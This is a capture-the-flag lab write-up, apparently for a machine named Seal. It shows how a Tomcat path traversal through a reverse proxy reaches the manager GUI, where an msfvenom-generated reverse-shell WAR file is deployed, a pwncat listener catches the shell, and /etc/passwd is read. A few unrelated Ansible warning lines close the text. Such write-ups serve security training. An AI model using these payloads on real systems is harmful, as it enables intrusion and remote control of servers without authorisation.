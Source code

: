 [Tomcat path traversal via reverse proxy mapping - Vulnerabilities - Acunetix](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

Due to architectural problems we can able to traverse to another path to read the files. As per assigned roles to this current user, we are not allowed to access default /manager gui page. If we can able to access this GUI page then we can deploy applications and do much more things. Let’s try to access that page.

![Screen Shot 2021-07-13 at 23.43.44.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8FB0D9E1-B1A3-4A9C-9E92-754FEA6A58EC/13D2D3BD-166E-431D-BB32-1798ECFBA59A_2/Screen%20Shot%202021-07-13%20at%2023.43.44.png)

We successfully tricked the server to access the GUI page. As you can see we can upload WAR file. Let’s generate that with Metasploit.

```other
⛩\> msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.22 lport=1234 -f war -o rce.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: rce.war
```

Now we need to upload this and intercept in burp suite. Remember, we don’t have direct access to this GUI, so we need to alter the POST request to traverse to the right path.

![Screen Shot 2021-07-13 at 23.49.29.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8FB0D9E1-B1A3-4A9C-9E92-754FEA6A58EC/08267282-932B-4203-9AC4-BDB16D55E841_2/Screen%20Shot%202021-07-13%20at%2023.49.29.png)

The above is default POST request. Now we need to modify the path and send forward the request to server.

![Screen Shot 2021-07-13 at 23.57.32.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8FB0D9E1-B1A3-4A9C-9E92-754FEA6A58EC/58A1B393-EAD5-43AE-9D4B-37262DA7FAC5_2/Screen%20Shot%202021-07-13%20at%2023.57.32.png)

The above is modified POST request. Check the selected part. Once you forward the request, go back to GUI dashboard and under application you can see /rce app.

Setup a listener using Netcat or Pwncat and click your uploaded application from the dashboard.

```other
⛩\> pwncat -l -p 1234
[07:00:32] received connection from 10.129.95.160:43422                                                  connect.py:255

[07:00:36] new host w/ hash 4c72943241c0000bb55e1f96e0f45c3b                                              victim.py:321
[07:00:49] pwncat running in /bin/sh                                                                      victim.py:354
[07:00:56] pwncat is ready 🐈                                                                             victim.py:771

\[\](remote)\[\] \[\]tomcat@seal\[\]:\[\]/\[\]$ bash

tomcat@seal:/$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

We got the reverse connection with Tomcat (service) privileges.

```other
tomcat@seal:/$ grep '/bash' /etc/passwd
root:x:0:0:root:/root:/bin/bash
luis:x:1000:1000:,,,:/home/luis:/bin/bash
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match
[WARNING]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'